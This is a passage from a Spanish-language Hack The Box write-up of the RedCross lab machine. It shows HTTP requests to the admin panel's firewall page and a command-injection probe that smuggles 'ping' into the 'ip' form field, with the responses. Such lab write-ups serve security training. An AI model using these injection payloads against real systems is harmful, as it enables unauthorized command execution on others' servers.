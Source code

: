 Veamos ahora que podemos hacer desde **Network Access** (firewall):

```html
xbytemx@laptop:~/htb/redcross$ http --verify no https://admin.redcross.htb/?page=firewall Cookie:"PHPSESSID=79cdhgjto42ab714987f6258c1; LANG=EN_US; SINCE=1555294885; LIMIT=10; DOMAIN=admin;"HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 540
Content-Type: text/html; charset=UTF-8
Keep-Alive: timeout=5, max=100
Pragma: no-cache
Server: Apache/2.4.25 (Debian)
Vary: Accept-Encoding

<center><a href=/><table border=0 width=95%><tr><td><table border=0><tr><td width=10% rowspan=2><img src='/images/it.svg' width='100%'></td><td valign='bottom'><h2>IT Admin panel</h2></td></tr><tr><td valign='top'><h3>Authorized personnel only</h3></td></tr></table></td><td width=100px><p style='font-size:75%'>[[guest]]</p><form action='/pages/actions.php' method='POST'><input type='submit' name='action' value='end session'></form></td></tr></table></a></center><center><form method=POST action='/pages/actions.php'>Whitelist IP Address: <input type='text' name='ip'>&nbsp<input type='submit' name='action' value='Allow IP'></form></center><center><table cellspacing=5 cellpadding=5><tr><td>UID</td><td>IP Address</td><td>Auth. since</td><td>Action</td></tr><tr><td>1</td><td>10.10.12.185   </td><td>2019-01-14 17:22:12.554465</td><td><form action='/pages/actions.php' method=POST><input type=hidden name=ip value=10.10.12.185   ><input type=hidden name=id value=12><input type=submit name=action value=deny></form></td></tr><tr><td>1</td><td>10.10.13.13    </td><td>2019-01-14 21:45:53.473657</td><td><form action='/pages/actions.php' method=POST><input type=hidden name=ip value=10.10.13.13    ><input type=hidden name=id value=16><input type=submit name=action value=deny></form></td></tr></table></center><br><br><center><p>Web admin system 0.9</p></center>
```

![admin firewall](/img/htb-redcross/http-admin-firewall.png)

Como podemos ver, contamos con varias reglas para permitir o denegar ciertas direcciones IP. Aquí al igual que con users, probé algunas combinaciones clásicas para un command injection, resultando esta pagina vulnerable:


```
xbytemx@laptop:~/htb/redcross$ http --verify=no -f POST https://admin.redcross.htb/pages/actions.php Cookie:"PHPSESSID=79cdhgjto42ab714987f6258c1; LANG=EN_US; SINCE=1555294885; LIMIT=10; DOMAIN=admin;" ip='1.1.1.1;ping -c1 10.10.14.84' action='Allow IP'
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Length: 30
Content-Type: text/html; charset=UTF-8
Keep-Alive: timeout=5, max=100
Pragma: no-cache
Server: Apache/2.4.25 (Debian)
refresh: 1;url=/?page=firewall

ERR: Invalid IP Address format

xbytemx@laptop:~/htb/redcross$ http --verify=no -f POST https://admin.redcross.htb/pages/actions.php Cookie:"PHPSESSID=79cdhgjto42ab714987f6258c1; LANG=EN_US; SINCE=1555294885; LIMIT=10; DOMAIN=admin;" ip='1.1.1.1;ping -c1 10.10.14.84' action=deny
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 191
Content-Type: text/html; charset=UTF-8
Keep-Alive: timeout=5, max=100
Pragma: no-cache
```